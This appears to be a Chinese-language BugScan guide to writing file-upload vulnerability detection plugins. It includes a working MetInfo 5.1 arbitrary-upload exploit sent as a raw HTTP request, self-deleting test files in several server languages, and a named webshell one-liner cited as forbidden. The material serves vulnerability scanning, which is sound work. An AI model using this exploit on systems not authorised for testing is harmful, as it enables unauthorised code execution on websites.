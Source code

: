 # 文件上传类
---

文件上传类插件可以分两种方法进行上传:

* raw (**推荐**)

    直接发送 HTTP 原始报文，可直接从 BurpSuite 中复制该报文，使用 hackhttp 的 raw 发包形式来上传文件。

* post 

	通过构造 `enctype="multipart/form-data"` 形式的 form  表单来上传文件。
	> 由于 MIME 类型较多，在处理时比较麻烦，官方推荐使用 raw 形式上传文件。

    

**范例插件**

[MetInfo5.1 /feedback/uploadfile_save.php 任意文件上传](http://www.bugscan.net/source/plugin/2447/template/)

> 感谢插件作者: [wonderkun](http://www.bugscan.net/accounts/template/profile/#/1937)

```
#!/usr/bin/evn python
# -*-:coding:utf-8 -*-
# Author: wonderkun
# Name: MetInfo5.1 任意文件上传 getshell
# Refer: http://www.wooyun.org/bugs/wooyun-2015-0139168
# Data: 2015/12/15

import time

def assign(service,arg):
    if service == fingerprint.metinfo:
        return True, arg

def audit(arg):
    url = arg + "feedback/uploadfile_save.php?met_file_format=pphphp&met_file_maxsize=9999&lang=metinfo"

    raw = '''
POST /feedback/uploadfile_save.php?met_file_format=pphphp&met_file_maxsize=9999&lang=metinfo HTTP/1.1
Host: localhost
Content-Length: 423
Cache-Control: max-age=0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Origin: null
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/47.0.2526.73 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryE1toBNeESf6p0uXQ
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8
Cookie: PHPSESSID=hfqa37uap92gdaoc2nsco6g0n1

------WebKitFormBoundaryE1toBNeESf6p0uXQ
Content-Disposition: form-data; name="fd_para[1][para]"

filea
------WebKitFormBoundaryE1toBNeESf6p0uXQ
Content-Disposition: form-data; name="fd_para[1][type]"

5
------WebKitFormBoundaryE1toBNeESf6p0uXQ
Content-Disposition: form-data; name="filea"; filename="test.php"
Content-Type: application/x-php

<?php echo md5(1);unlink(__FILE__);?>
------WebKitFormBoundaryE1toBNeESf6p0uXQ--
    '''
    # proxy=('127.0.0.1',8080)
    code1, head1, res1, finalurl1, log1 = hackhttp.http(url, raw=raw)

    # get upload file name
    name = int(time.time())
    for i in range(3):
        filename = name + i
        url = arg + 'upload/file/%s.php' % (str(filename))
        code2, head2, res2, finalurl2, log2 = hackhttp.http(url)
        if code2 == 200 and "c4ca4238a0b923820dcc509a6f75849b" in res2:
            # 只用传递触发漏洞的 log，验证上传成功的 log 不需要
            security_hole('file upload Vulnerable:' + arg + "feedback/uploadfile_save.php?met_file_format=pphphp&met_file_maxsize=9999&lang=metinfo", log=log1)
            break
if __name__ == '__main__':
    from dummy import *
    audit(assign(fingerprint.metinfo, "http://127.0.0.1/metinfo5.1/")[1])

```

### 文件上传类插件检测步骤

1. 上传指定文件到目标
2. 访问上传后的文件
3. 判断是不是 1 中上传的文件

### 文件上传类的插件原则

1. 一般情况下要求上传可执行的文件，例如：php, asp, aspx, jsp
2. 上传文件内容要求对目标不得造成任何形式的损害。
3. 上传后的文件，在访问一次之后应该自删除。
4. 文件名应该尽量随机，不要与正常文件名相同。

### 上传文件样例代码

BugScan 社区官方提供了以下几类语言的上传检测样本，供开发者参考，所有文件都会在访问一次之后自删除，如果无删除权限时，由于其只输出字符串，也不会造成太大危害。

* PHP

	```php
	<?php echo md5(233);unlink(__FILE__);?>
	```
	输出: e165421110ba03099a1c0393373c5b43

* ASP

	```
	<%
	Response.Write chr(101)&chr(49)&chr(54)&chr(53)&chr(52)&chr(50)&chr(49)&chr(49)&chr(49)&chr(48)&chr(98)&chr(97)&chr(48)&chr(51)&chr(48)&chr(57)&chr(57)&chr(97)&chr(49)&chr(99)&chr(48)&chr(51)&chr(57)&chr(51)&chr(51)&chr(55)&chr(51)&chr(99)&chr(53)&chr(98)&chr(52)&chr(51)
	CreateObject("Scripting.FileSystemObject").DeleteFile(server.mappath(Request.ServerVariables("SCRIPT_NAME")))
	%>
	```

	访问该文件后输出: e165421110ba03099a1c0393373c5b43

* ASPX

	```
	<%@Page Language="C#"%>
	<%
	Response.Write(System.Text.Encoding.GetEncoding(65001).GetString(System.Convert.FromBase64String("ZTE2NTQyMTExMGJhMDMwOTlhMWMwMzkzMzczYzViNDM=")));
	System.IO.File.Delete(Request.PhysicalPath);
	%>
	```
	
	访问该文件后输出：e165421110ba03099a1c0393373c5b43

* JSP

	```jsp
	<%
	out.println(new String(new sun.misc.BASE64Decoder().decodeBuffer("ZTE2NTQyMTExMGJhMDMwOTlhMWMwMzkzMzczYzViNDM=")));
	new java.io.File(application.getRealPath(request.getServletPath())).delete();
	%>
	```
	
	访问该文件后输出：e165421110ba03099a1c0393373c5b43

* JSPX

    ```
<?xml version="1.0" encoding="UTF-8"?>
<jsp:root xmlns="http://www.w3.org/1999/xhtml" version="2.0"  xmlns:jsp="http://java.sun.com/JSP/Page" xmlns:c="http://java.sun.com/jsp/jstl/core">  
<jsp:directive.page contentType="text/html;charset=UTF-8" language="java" />  
<jsp:scriptlet> 
out.println(new String(new sun.misc.BASE64Decoder().decodeBuffer("ZTE2NTQyMTExMGJhMDMwOTlhMWMwMzkzMzczYzViNDM=")));
  new java.io.File(application.getRealPath(request.getServletPath())).delete();
</jsp:scriptlet>
</jsp:root>
    ```

    访问该文件后输出：e165421110ba03099a1c0393373c5b43

### 文件上传 Q & A

> Q: 为什么不能上传 `eval($_POST[a]);`?

> A: 上传 webshell 会对目标造成危害，违反了无损扫描这一约定，并且上传内容中包含后门特征，容易被防护产品拦截。

---

> Q: 为什么不能上传 `phpinfo();`?

> A: `phpinfo();`看起来无害实际上却有着泄漏目标服务敏感信息的危害。如果在检测后忘记删除文件，会对其它攻击者提供便利。 

---

> Q: 为什么要自删除？
> 
> A: 自删除可保证在检测之后不会在目标系统中留下检测时产生的文件，对目标影响较小。如果上传的件名不是随机的，在下次上传时会出现写入不成功的情况。

---

> Q: 为什么文件名要随机？
> 
> A: 文件名随机在检测没有重命名处理的上传点时好处有：
> 
> 1. 如果文件名与现有的文件同名，写入会失败或者覆盖原文件。
> 2. 第一次检测上传成功，在修复漏洞后忘记删除该文件，下次检测时访问该文件会产生误报。



